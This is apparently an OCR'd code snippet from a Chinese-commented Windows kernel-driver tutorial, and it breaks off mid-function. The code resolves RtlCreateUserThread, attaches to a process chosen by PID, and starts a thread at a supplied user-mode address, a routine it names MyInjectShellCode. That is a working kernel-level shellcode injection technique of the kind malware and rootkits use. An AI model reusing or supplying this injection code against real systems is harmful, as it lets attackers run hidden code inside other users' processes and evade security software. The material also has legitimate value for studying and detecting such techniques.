     #include "lyshark.h"
    
    // 定义函数指针
    typedef PVOID(NTAPI* PfnRtlCreateUserThread)
    (
    	IN HANDLE ProcessHandle,
    	IN PSECURITY_DESCRIPTOR SecurityDescriptor,
    	IN BOOLEAN CreateSuspended,
    	IN ULONG StackZeroBits,
    	IN OUT size_t StackReserved,
    	IN OUT size_t StackCommit,
    	IN PVOID StartAddress,
    	IN PVOID StartParameter,
    	OUT PHANDLE ThreadHandle,
    	OUT PCLIENT_ID ClientID
    );
    
    // 远程线程注入函数
    BOOLEAN MyInjectShellCode(ULONG pid, PVOID pRing3Address)
    {
    	NTSTATUS status = STATUS_UNSUCCESSFUL;
    	PEPROCESS pEProcess = NULL;
    	KAPC_STATE ApcState = { 0 };
    
    	PfnRtlCreateUserThread RtlCreateUserThread = NULL;
    	HANDLE hThread = 0;
    
    	__try
    	{
    		// 获取RtlCreateUserThread函数的内存地址
    		UNICODE_STRING ustrRtlCreateUserThread;
    		RtlInitUnicodeString(&ustrRtlCreateUserThread, L"RtlCreateUserThread");
    		RtlCreateUserThread = (PfnRtlCreateUserThread)MmGetSystemRoutineAddress(&ustrRtlCreateUserThread);
    		if (RtlCreateUserThread == NULL)
    		{
    			return FALSE;
    		}
    
    		// 根据进程PID获取进程EProcess结构
    		status = PsLookupProcessByProcessId((HANDLE)pid, &pEProcess);
    		if (!NT_SUCCESS(status))
    		{
    			return FALSE;
    		}
    
    		// 附加到目标进程内
    		KeStackAttachProcess(pEProcess, &ApcState);
    
    		// 验证进程是否可读写
    		if (!MmIsAddressValid(pRing3Address))
    		{
    			return FALSE;
    		}
    
    		// 启动注入线程
    		status = RtlCreateUserThread(ZwCurrentProcess(),
    			NULL,
    			FALSE,
    			0,
    			0,
    			0,
    			pRing3Address,
    			NULL,
    			&hThread,
    			NULL);
    		if (!NT_SUCCESS(status))
    		{